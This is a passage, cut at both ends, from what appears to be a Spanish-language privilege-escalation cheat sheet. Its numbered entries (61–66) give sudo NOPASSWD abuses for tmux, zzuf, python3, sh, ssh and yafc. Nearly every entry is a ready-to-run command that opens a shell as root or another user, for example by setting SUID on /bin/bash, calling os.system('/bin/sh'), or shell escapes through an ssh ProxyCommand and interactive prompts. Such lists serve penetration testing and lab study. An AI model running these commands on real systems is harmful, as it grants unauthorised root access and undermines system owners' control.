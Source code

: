 se abre una ventana interactiva, presiono

ctrl + k 

luego presiono la tecla " ! "

/bin/sh y presiono enter y listo somos root

-------------------------------------------------------------------------------
61.-	 /usr/bin/tmux

(root) NOPASSWD: /usr/bin/tmux

sudo /usr/bin/tmux

-------------------------------------------------------------------------------
62.-	/usr/bin/zzuf

/usr/bin/zzuf -help

sudo /usr/bin/zzuf -c chmod 4755 /bin/bash

bash -p

-------------------------------------------------------------------------------

63.-	/usr/bin/python3

(angela) NOPASSWD: /usr/bin/python3

sudo -u angela /usr/bin/python3 -c 'import os; os.system("/bin/sh")'

-------------------------------------------------------------------------------

64.-	/usr/bin/sh

(darlene) NOPASSWD: /usr/bin/sh

sudo -u darlene /usr/bin/sh

-------------------------------------------------------------------------------

65.-	/usr/bin/ssh

 (tony) NOPASSWD: /usr/bin/ssh

sudo -u tony /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x

-------------------------------------------------------------------------------

66.-	/usr/bin/yafc

(root) NOPASSWD: /usr/bin/yafc

sudo /usr/bin/yafc

yafc 1.3.7

nos aparece una ventana interactiva:

yafc > 

ejecutamos
